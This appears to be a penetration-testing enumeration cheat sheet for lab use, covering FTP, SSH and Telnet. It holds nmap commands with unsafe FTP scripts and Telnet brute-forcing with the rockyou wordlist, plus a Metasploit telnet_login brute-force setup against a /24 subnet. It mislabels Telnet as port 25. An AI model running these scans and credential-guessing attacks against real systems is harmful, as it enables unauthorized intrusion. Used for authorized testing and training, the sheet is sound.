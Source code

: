 # -------------
##  ----EXTRA-----:

# Enumerating

This is the essential part of penetration. Find out what is available and how you could punch through it with minimum ease.

DO NOT SKIP STEPS.

DO NOT PASS GO.

SEARCH ***ALL*** THE VERSIONS WITH `searchsploit`
(or google -> `site:exploit-db.com APP VERSION`)

# FTP - 21

- Anonymous login
- Enumerate the hell out of the machine!
  - OS version
  - Other software you can find on the machine (Prog Files, yum.log, /bin)
  - password files
  - DLLs for `msfpescan` / BOF targets
- Do you have UPLOAD potential?
  - Can you trigger execution of uploads?
  - Swap binaries?
- Vulnerabilities in version / RCE / #WINNING?-D


####--NEW--
nmap --script=*ftp* --script-args=unsafe=1 -p 20,21 10.11.1.8


# SSH - 22

Unless you get a MOTD or a broken sshd version, you are SOOL and this is likely just a secondary access point once you break something else.

# TELNET - 25
```
nmap -p 23 --script telnet-brute --script-args

userdb=/usr/share/metasploit-framework/data/wordlists/unix_users,passdb=/usr/share/wordlists/rockyou.txt,telnet-brute.timeout=20s 10.11.1.22
```
## metasploit

### 1.  telnet bruteforce
```
use auxiliary/scanner/telnet/telnet_login
msf auxiliary(telnet_login) > set BLANK_PASSWORDS false
BLANK_PASSWORDS => false
msf auxiliary(telnet_login) > set PASS_FILE passwords.txt
PASS_FILE => passwords.txt
msf auxiliary(telnet_login) > set RHOSTS 192.168.1.0/24
RHOSTS => 192.168.1.0/24
msf auxiliary(telnet_login) > set THREADS 254
THREADS => 254
msf auxiliary(telnet_login) > set USER_FILE users.txt
USER_FILE => users.txt
```